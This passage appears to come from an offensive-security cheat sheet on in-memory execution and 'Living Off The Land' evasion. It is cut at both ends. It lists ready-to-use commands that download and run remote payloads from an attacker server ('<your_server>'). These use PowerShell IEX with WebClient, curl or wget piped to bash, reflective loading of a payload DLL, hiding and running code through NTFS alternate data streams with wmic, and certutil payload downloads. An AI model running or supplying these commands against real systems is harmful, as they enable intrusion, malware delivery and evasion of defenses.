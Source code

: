     # Alternative methods
    IEX (Invoke-WebRequest -Uri 'http://<your_server>/script.ps1' -UseBasicParsing).Content
    
    # Using .NET directly
    IEX ([System.Text.Encoding]::ASCII.GetString((New-Object Net.WebClient).DownloadData('http://<your_server>/script.ps1')))
    ```
  
  - **Bash In-Memory Execution**:
    ```bash
    # Download and execute in memory
    curl -s http://<your_server>/script.sh | bash
    
    # Alternative method
    wget -q -O - http://<your_server>/script.sh | bash
    ```

- **Process Injection**:
  - **PowerShell Reflection**:
    ```powershell
    # Load assembly in memory
    $bytes = (New-Object Net.WebClient).DownloadData('http://<your_server>/payload.dll')
    [System.Reflection.Assembly]::Load($bytes)
    
    # Or for direct execution
    $assembly = [System.Reflection.Assembly]::Load($bytes)
    $entryPoint = $assembly.GetType('Namespace.Class').GetMethod('Method')
    $entryPoint.Invoke($null, $null)
    ```

## 5. Living Off The Land (LOL) Techniques

Use legitimate system tools for malicious purposes.

- **Alternative Data Streams (Windows)**:
  ```powershell
  # Hide data in alternate data streams
  Add-Content -Path "legitimate.txt" -Value "malicious content" -Stream "hidden"
  
  # Execute from ADS
  wmic process call create "powershell -command `"Get-Content -Path legitimate.txt -Stream hidden | Invoke-Expression`""
  ```

- **Trusted Utilities**:
  - **Windows**:
    ```powershell
    # Use certutil for file downloads
    certutil.exe -urlcache -split -f "http://<your_server>/payload.exe" payload.exe
    